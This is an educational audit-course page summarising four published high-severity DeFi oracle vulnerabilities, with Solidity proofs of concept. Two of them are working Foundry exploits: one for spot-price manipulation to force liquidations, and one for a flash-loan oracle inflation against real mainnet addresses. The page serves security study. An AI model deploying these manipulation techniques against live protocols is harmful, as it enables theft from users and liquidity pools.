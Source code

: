 # ETAAcademy-Adudit: 7. Oracle

<table>
  <tr>
    <th>title</th>
    <th>tags</th>
  </tr>
  <tr>
    <td>07. Oracle</td>
    <td>
      <table>
        <tr>
          <th>audit</th>
          <th>basic</th>
          <th>DeFi</th>
          <td>oracle</td>
        </tr>
      </table>
    </td>
  </tr>
</table>

[Github](https://github.com/ETAAcademy)｜[Twitter](https://twitter.com/ETAAcademy)｜[ETA-Audit](https://github.com/ETAAcademy/ETAAcademy-Audit)

Authors: [Evta](https://twitter.com/pwhattie), looking forward to your joining

## 1.[High] The use of spot price by CoreSaltyFeed can lead to price manipulation and undesired liquidations

### Difference between TWAP and Chainlink

- Summary: Chainlink's instant spot prices and CoreSaltyFeed's manipulable prices create arbitrage opportunities. Low liquidity and a $500 maximum reward make attacks profitable. If Chainlink fails, a 3% market change isn't needed for the attack. Borrowers may face unexpected liquidation, and honest liquidators may be unable to act due to price manipulation.

- Impact & Recommendation: Consider replacing CoreSaltyFeed with a different oracle that provides better protection against manipulation, like Band Protocol.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-01-salty#h-03-the-use-of-spot-price-by-coresaltyfeed-can-lead-to-price-manipulation-and-undesired-liquidations) & [Report](https://code4rena.com/reports/2024-01-salty)

  <details><summary>POC</summary>

  ```solidity
    // SPDX-License-Identifier: BUSL 1.1
    pragma solidity =0.8.22;
    import "../../dev/Deployment.sol";
    import "../PoolUtils.sol";
    contract H2 is Deployment
        {
        TestERC20 immutable tokenA;
        TestERC20 immutable tokenB;
        address ALICE = address(0x1111);
        address BOB = address(0x2222);
                constructor()
            {
                initializeContracts();
                grantAccessAlice();
                grantAccessBob();
                grantAccessCharlie();
                grantAccessDeployer();
                grantAccessDefault();
                finalizeBootstrap();
                vm.startPrank(address(daoVestingWallet));
                salt.transfer(DEPLOYER, 1000000 ether);
                salt.transfer(address(collateralAndLiquidity), 1000000 ether);
                vm.stopPrank();
                vm.startPrank( DEPLOYER );
                tokenA = new TestERC20("TOKENA", 18);
                tokenB = new TestERC20("TOKENB", 18);
                vm.stopPrank();
                _prepareToken(tokenA);
                _prepareToken(tokenB);
                _prepareToken(weth);
                vm.stopPrank();
                vm.prank(address(dao));
                poolsConfig.whitelistPool( pools, tokenA, tokenB );
                vm.stopPrank();
            }
            // Make the required approvals and transfer to Bob and Alice.
            function _prepareToken(IERC20 token) internal {
                vm.startPrank( DEPLOYER );
                token.approve( address(pools), type(uint256).max );
                token.approve( address(collateralAndLiquidity), type(uint256).max );
                // For WBTC, we can't use 'ether', so we use 10**8.
                uint decimals = TestERC20(address(token)).decimals();
                token.transfer(ALICE, 1_000_000 * (10**decimals));
                token.transfer(BOB, 1_000_000 * (10**decimals));
                vm.startPrank(ALICE);
                token.approve( address(pools), type(uint256).max );
                token.approve( address(collateralAndLiquidity), type(uint256).max );
                vm.startPrank(BOB);
                token.approve( address(pools), type(uint256).max );
                token.approve( address(collateralAndLiquidity), type(uint256).max );
                vm.stopPrank();
            }
            // Create pools that will participate in arbitrage
            // Note: We have all required pools for successful arbitrage, see ArbitrageSearch::_arbitragePath
            // swap: swapTokenIn->WETH
            // arb: WETH->swapTokenIn->WBTC->WETH
            // We have: tokenA/WETH, tokenA/WBTC, WBTC/WETH
            function _makeArbitragePossible(uint amountToDeposit) internal {
                // based on Pools.t.sol::testDepositDoubleSwapWithdraw
                vm.startPrank(DEPLOYER);
                wbtc.approve(address(collateralAndLiquidity), type(uint256).max );
                weth.approve(address(collateralAndLiquidity), type(uint256).max );
                tokenA.approve(address(collateralAndLiquidity), type(uint256).max );
                tokenB.approve(address(collateralAndLiquidity), type(uint256).max );
                tokenA.approve(address(pools), type(uint256).max );
                vm.warp(block.timestamp + stakingConfig.modificationCooldown());
                collateralAndLiquidity.depositCollateralAndIncreaseShare(
                    amountToDeposit * 10**8, amountToDeposit * 1 ether, 0, block.timestamp, false
                );
                vm.stopPrank();
                vm.startPrank(address(dao));
                poolsConfig.whitelistPool( pools, tokenA, wbtc);
                poolsConfig.whitelistPool( pools, tokenA, weth);
                poolsConfig.whitelistPool( pools, tokenB, wbtc);
                poolsConfig.whitelistPool( pools, tokenB, weth);
                vm.stopPrank();
                vm.startPrank(DEPLOYER);
                collateralAndLiquidity.depositLiquidityAndIncreaseShare(
                    tokenA, wbtc, amountToDeposit * 1 ether, amountToDeposit * 10**8, 0,
                    block.timestamp, false
                );
                collateralAndLiquidity.depositLiquidityAndIncreaseShare(
                    tokenB, wbtc, amountToDeposit * 1 ether, amountToDeposit * 10**8, 0,
                    block.timestamp, false
                );
                collateralAndLiquidity.depositLiquidityAndIncreaseShare(
                    tokenA, weth, amountToDeposit * 1 ether, amountToDeposit * 1 ether, 0,
                    block.timestamp, false
                );
                collateralAndLiquidity.depositLiquidityAndIncreaseShare(
                    tokenB, weth, amountToDeposit * 1 ether, amountToDeposit * 1 ether, 0,
                    block.timestamp, false
                );
                vm.stopPrank();
            }
            function _getReservesAndPrice(IERC20 _tokenA, IERC20 _tokenB) internal view returns (
                string memory _tokenASymbol, string memory _tokenBSymbol,
                uint reserveA, uint reserveB, uint priceBinA
            ) {
                (reserveA, reserveB) = pools.getPoolReserves(_tokenA, _tokenB);
                _tokenASymbol = TestERC20(address(_tokenA)).symbol();
                _tokenBSymbol = TestERC20(address(_tokenB)).symbol();
                uint8  _tokenADecimals = TestERC20(address(_tokenA)).decimals();
                uint8  _tokenBDecimals = TestERC20(address(_tokenB)).decimals();
                // reserveA / reserveB  || b.decimals - a.decimals  || normalizer
                // 1e8/1e18             || diff 10                  || 1e28
                // 1e18/1e18            || diff 0                   || 1e18
                // 1e18/1e8             || diff -10                 || 1e8
                int8 decimalsDiff = int8(_tokenBDecimals) - int8(_tokenADecimals);
                uint normalizerPower = uint8(int8(18) + decimalsDiff);
                uint normalizer = 10**normalizerPower;
                // price with precision 1e18
                priceBinA = reserveB == 0
                        ? 0
                        : ( reserveA * normalizer ) / reserveB;
            }
            function _printReservesAndPriceFor(IERC20 _tokenA, IERC20 _tokenB) internal view
            {
                (
                    string memory _tokenASymbol,
                    string memory _tokenBSymbol,
                    uint reserveA,
                    uint reserveB,
                    uint priceBinA
                ) = _getReservesAndPrice(_tokenA, _tokenB);
                console2.log("%s reserves: %e", _tokenASymbol , reserveA);
                console2.log("%s reserves: %e", _tokenBSymbol, reserveB);
                console2.log("%s price in %s: %e", _tokenBSymbol, _tokenASymbol, priceBinA);
                console.log("");
            }
            // Extracted some local variables to storage due to too many local variables.
            struct MovePriceParams {
                uint amountToExchange;
                uint expectedMovementPercents;
                uint expectedLoss;
            }
            uint gasBefore = 1; // Set to 1 to save gas on updates and obtain more accurate gas estimations.
            uint stepsCount;
            // Splitting a swap into several steps will significantly reduce slippage.
            // More steps will further reduce slippage, thereby decreasing the cost of the attack.
            // However, too many steps can incur high gas costs; for instance, 100 steps will cost approximately 3+4=7 million gas (as indicated in the console.log output).
            uint constant steps = 100;
            function _movePrice(MovePriceParams memory p) internal {
                /* Before the attack */
                console.log("\n%s", "__BEFORE");
                // Check price before
                (,,,,uint priceBefore) = _getReservesAndPrice(tokenA, weth);
                assertEq(1 ether, priceBefore); // price is 1:1
                _printReservesAndPriceFor(tokenA, weth);
                uint wethBefore = weth.balanceOf(ALICE);
                uint tokenABefore = tokenA.balanceOf(ALICE);
                console2.log("weth.balanceOf(ALICE): %e", wethBefore);
                console2.log("tokenA.balanceOf(ALICE): %e", tokenABefore);
                /* Move the price */
                vm.startPrank(ALICE);
                gasBefore = gasleft();
                for (uint i; i < steps; i++){
                    pools.depositSwapWithdraw(tokenA, weth, p.amountToExchange/steps, 0, block.timestamp + 300);
                }
                console.log("Gas first(for) loop: ", gasBefore - gasleft());
                /* After the attack */
                console.log("\n%s", "__AFTER");
                // Console.log the output
                _printReservesAndPriceFor(tokenA, weth);
                uint wethAfter = weth.balanceOf(ALICE);
                uint tokenAAfter = tokenA.balanceOf(ALICE);
                console2.log("weth.balanceOf(ALICE): %e", weth.balanceOf(ALICE));
                console2.log("tokenA.balanceOf(ALICE): %e", tokenA.balanceOf(ALICE));
                uint wethGained = wethAfter - wethBefore;
                uint tokenALost = tokenABefore - tokenAAfter;
                console2.log("weth.balanceOf(ALICE) diff: %e", wethGained);
                console2.log("tokenA.balanceOf(ALICE) diff: %e", tokenALost);
                // Note: Since the price of tokenA and WETH are the same at the start, with a 1:1 ratio,
                // we can subtract and add them as equivalent values.
                uint attackPrice = tokenALost - wethGained;
                console2.log("Losses for the attacker (before swapping back): %e", attackPrice);
                // Assert that the attack was successful and inexpensive.
                (,,,,uint priceAfter) = _getReservesAndPrice(tokenA, weth);
                uint priceDiff = priceAfter - priceBefore;
                assertTrue(priceDiff >= p.expectedMovementPercents * 1 ether / 100);
                /* The attacker can further reduce the cost by exchanging back. */
                /* After the exchange, the price is moved back. */
                console.log("\n%s", "__AFTER_EXCHANGING_BACK");
                (,,,,uint currentPrice) = _getReservesAndPrice(tokenA, weth);
                uint step = p.amountToExchange/steps;
                gasBefore = gasleft();
                while (currentPrice > 1 ether){
                    pools.depositSwapWithdraw(weth, tokenA, step, 0, block.timestamp);
                    (,,,,currentPrice) = _getReservesAndPrice(tokenA, weth);
                    stepsCount++;
                }
                // Console.log the output
                console2.log("Gas second(while) loop: ", gasBefore - gasleft());
                console2.log("stepsCount", stepsCount);
                _printReservesAndPriceFor(tokenA, weth);
                uint wethAfterBalancing = weth.balanceOf(ALICE);
                uint tokenAAfterBalancing = tokenA.balanceOf(ALICE);
                console2.log("weth.balanceOf(ALICE): %e", weth.balanceOf(ALICE));
                console2.log("tokenA.balanceOf(ALICE): %e", tokenA.balanceOf(ALICE));
                int wethDiff = int(wethAfterBalancing) - int(wethBefore);
                int tokenADiff = int(tokenAAfterBalancing) - int(tokenABefore);
                console2.log("weth.balanceOf(ALICE) diff: %e", wethDiff);
                console2.log("tokenA.balanceOf(ALICE) diff: %e", tokenADiff);
                // Note: Since the price of tokenA and WETH are the same at the start, with a 1:1 ratio,
                // we can subtract and add them as equivalent values.
                int sumDiff = wethDiff + tokenADiff;
                console2.log("Diff (positive=profit) for the attacker: %e", sumDiff);
                console2.log("Arbitrage profits for DAO: %e", pools.depositedUserBalance(address(dao), weth ));
            }
        function testMovePrice10PercentsFor1000EtherPools() public
            {
                _makeArbitragePossible(1_000);
                _movePrice(MovePriceParams(75 ether, 10, 0.0363 ether));
            }
        function testMovePrice3PercentsFor1000EtherPools() public
            {
                _makeArbitragePossible(1_000);
                _movePrice(MovePriceParams(23 ether, 3, 0.0036 ether));
            }
        function testMovePrice3PercentsFor100EtherPools() public
            {
                _makeArbitragePossible(100);
                _movePrice(MovePriceParams(2.3 ether, 3, 0.0004 ether));
            }
        function testMovePrice3PercentsFor10EtherPools() public
            {
                _makeArbitragePossible(10);
                _movePrice(MovePriceParams(0.23 ether, 3, 0.00008 ether));
            }
    }

  ```

  </details>

## 2.[High] OUSGInstantManager will allow excessive OUSG token minting during USDC depeg event

### Excessive OUSG token minting during USDC depeg

- Summary: OUSGInstantManager allows users to mint OUSG tokens using USDC, based on a fixed conversion rate, without validation checks on the current USDC price. The minting logic relies on the OUSG price obtained from an oracle, constrained to ensure stability. During a USDC depeg event, where USDC's value deviates from 1 USD, users can potentially mint excessive OUSG tokens, leading to a significant impact on token supply.

- Impact & Recommendation: Excessive OUSG token minting during USDC depeg events. Implement an additional Oracle to consider current USDC price when calculating OUSG token minting.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-03-ondo-finance#h-01-ousginstantmanager-will-allow-excessive-ousg-token-minting-during-usdc-depeg-event) & [Report](https://code4rena.com/reports/2024-03-ondo-finance)

  <details><summary>POC</summary>

  ```solidity
       function setPrice(int256 newPrice) external onlyRole(SETTER_ROLE) {
       if (newPrice <= 0) {
         revert InvalidPrice();
       }
   @-> if (block.timestamp - priceTimestamp < MIN_PRICE_UPDATE_WINDOW) {
         revert PriceUpdateWindowViolation();
       }
   @-> if (_getPriceChangeBps(rwaPrice, newPrice) > MAX_CHANGE_DIFF_BPS) {
         revert DeltaDifferenceConstraintViolation();
       }
       // Set new price
       int256 oldPrice = rwaPrice;
       rwaPrice = newPrice;
       priceTimestamp = block.timestamp;
       emit RWAPriceSet(oldPrice, newPrice, block.timestamp);
     }

       function _getMintAmount(
           uint256 usdcAmountIn,
           uint256 price
       ) internal view returns (uint256 ousgAmountOut) {
           uint256 amountE36 = _scaleUp(usdcAmountIn) * 1e18;
           ousgAmountOut = amountE36 / price;
       }

  ```

  </details>

## 3.[High] Anyone making use of the MagicLP’s TWAP to determine token prices will be exploitable.

### TWAP updating mechanism

- Summary: MagicLP's TWAP updating mechanism allows attackers to manipulate recorded prices by inflating reserves before a query, resulting in potentially exploitative trading conditions for unsuspecting users. This can lead to significant profit for attackers who exploit the manipulated prices during trading activities, posing a risk to any application relying on MagicLP’s TWAP for token price determination.

- Impact & Recommendation: `_twapUpdate()` needs to be called before reserves are updated.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-03-abracadabra-money#h-01-anyone-making-use-of-the-magiclps-twap-to-determine-token-prices-will-be-exploitable) & [Report](https://code4rena.com/reports/2024-03-abracadabra-money)

<details><summary>POC</summary>

```solidity
    function _twapUpdate() internal {
        uint32 blockTimestamp = uint32(block.timestamp % 2 ** 32);
        uint32 timeElapsed = blockTimestamp - _BLOCK_TIMESTAMP_LAST_;
        if (timeElapsed > 0 && _BASE_RESERVE_ != 0 && _QUOTE_RESERVE_ != 0) {
            /// @dev It is desired and expected for this value to
            /// overflow once it has hit the max of `type.uint256`.
            unchecked {
                _BASE_PRICE_CUMULATIVE_LAST_ += getMidPrice() * timeElapsed;
            }
        }
        _BLOCK_TIMESTAMP_LAST_ = blockTimestamp;
    }

    function _resetTargetAndReserve() internal returns (uint256 baseBalance, uint256 quoteBalance) {
        baseBalance = _BASE_TOKEN_.balanceOf(address(this));
        quoteBalance = _QUOTE_TOKEN_.balanceOf(address(this));
        if (baseBalance > type(uint112).max || quoteBalance > type(uint112).max) {
            revert ErrOverflow();
        }
        _BASE_RESERVE_ = uint112(baseBalance);
        _QUOTE_RESERVE_ = uint112(quoteBalance);
        _BASE_TARGET_ = uint112(baseBalance);
        _QUOTE_TARGET_ = uint112(quoteBalance);
        _RState_ = uint32(PMMPricing.RState.ONE);
        _twapUpdate();
    }
    function _setReserve(uint256 baseReserve, uint256 quoteReserve) internal {
        _BASE_RESERVE_ = baseReserve.toUint112();
        _QUOTE_RESERVE_ = quoteReserve.toUint112();
        _twapUpdate();
    }


```

</details>

## 4.[High] Oracle price can be manipulated

### Oracle price

- Summary: MagicLpAggregator allows attackers to manipulate pair token prices by inflating reserve values. For example, an attacker can use a flash loan to inflate the pair price, which can deceive users relying on the oracle's price information, leading to potential financial losses.

- Impact & Recommendation: Consider add a sanity check in MagicLpAggregator to compare base and quote token prices with the Chainlink price feed.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-03-abracadabra-money#h-04-oracle-price-can-be-manipulated) & [Report](https://code4rena.com/reports/2024-03-abracadabra-money)

<details><summary>POC</summary>

```solidity
    // SPDX-License-Identifier: UNLICENSED
    pragma solidity ^0.8.13;
    import "utils/BaseTest.sol";
    import "oracles/aggregators/MagicLpAggregator.sol";
    // import "forge-std/console2.sol";
    interface IDodo {
        function getVaultReserve() external view returns (uint256 baseReserve, uint256 quoteReserve);
        function _QUOTE_TOKEN_() external view returns (address);
        function sellBase(address to) external returns (uint256);
        function sellQuote(address to) external returns (uint256);
    }
    interface IFlashMinter {
        function flashLoan(address, address, uint256, bytes memory) external;
    }
    contract MagicLpAggregatorExt is MagicLpAggregator {
        constructor(
            IMagicLP pair_,
            IAggregator baseOracle_,
            IAggregator quoteOracle_
        ) MagicLpAggregator(pair_, baseOracle_, quoteOracle_) {}
        function _getReserves() internal view override returns (uint256, uint256) {
            return IDodo(address(pair)).getVaultReserve();
        }
    }
    contract Borrower {
        IFlashMinter private immutable minter;
        IDodo private immutable dodoPool;
        MagicLpAggregator private immutable oracle;
        constructor(address _minter, address _dodoPool, address _oracle) {
            minter = IFlashMinter(_minter);
            dodoPool = IDodo(_dodoPool);
            oracle = MagicLpAggregator(_oracle);
        }
        /// Initiate a flash loan
        function flashBorrow(address token, uint256 amount) public {
            IERC20Metadata(token).approve(address(minter), ~uint256(0));
            minter.flashLoan(address(this), token, amount, "");
        }
        /// ERC-3156 Flash loan callback
        function onFlashLoan(
            address initiator,
            address token, // DAI
            uint256 amount,
            uint256 fee,
            bytes calldata data
        ) external returns (bytes32) {
            // tamper with the DAI/USDT pool
            IERC20Metadata(token).transfer(address(dodoPool), amount);
            dodoPool.sellBase(address(this));
            IERC20Metadata quote = IERC20Metadata(dodoPool._QUOTE_TOKEN_());
            uint256 quoteAmount = quote.balanceOf(address(this));
            // pair price after tampering
            uint256 response = uint256(oracle.latestAnswer());
            console.log("BAD ANSWER: ", response);
            // Do something evil here
            // swap tokens back and repay the loan
            address(quote).call{value: 0}(abi.encodeWithSignature("transfer(address,uint256)", address(dodoPool), quoteAmount));
            dodoPool.sellQuote(address(this));
            IERC20Metadata(token).transfer(initiator, amount + fee);
            return keccak256("ERC3156FlashBorrower.onFlashLoan");
        }
    }
    contract MagicLpAggregatorTest is BaseTest {
        MagicLpAggregatorExt aggregator;
        address public DAI = 0x6B175474E89094C44Da98b954EedeAC495271d0F;
        address constant DAI_MINTER = 0x60744434d6339a6B27d73d9Eda62b6F66a0a04FA;
        address constant DODO_POOL = 0x3058EF90929cb8180174D74C507176ccA6835D73;
        function setUp() public override {
            fork(ChainId.Mainnet, 19365773);
            _setUp();
        }
        function _setUp() public {
            super.setUp();
            aggregator = new MagicLpAggregatorExt(
                IMagicLP(DODO_POOL),
                IAggregator(0xAed0c38402a5d19df6E4c03F4E2DceD6e29c1ee9),
                IAggregator(0x3E7d1eAB13ad0104d2750B8863b489D65364e32D)
            );
        }
        function testGetResult() public {
            uint256 response = uint256(aggregator.latestAnswer());
            // pair price before ~ $2
            assertEq(response, 2000502847471294054);
            console.log("GOOD ANSWER: ", response);
            // use DAI flash minter to inflate the pair price to $67
            Borrower borrower = new Borrower(DAI_MINTER, DODO_POOL, address(aggregator));
            deal(DAI, address(borrower), 1100 * 1e18);
            IERC20Metadata(DAI).approve(address(borrower), type(uint256).max);
            borrower.flashBorrow(DAI, 100_000_000 ether);
        }
    }

```

</details>
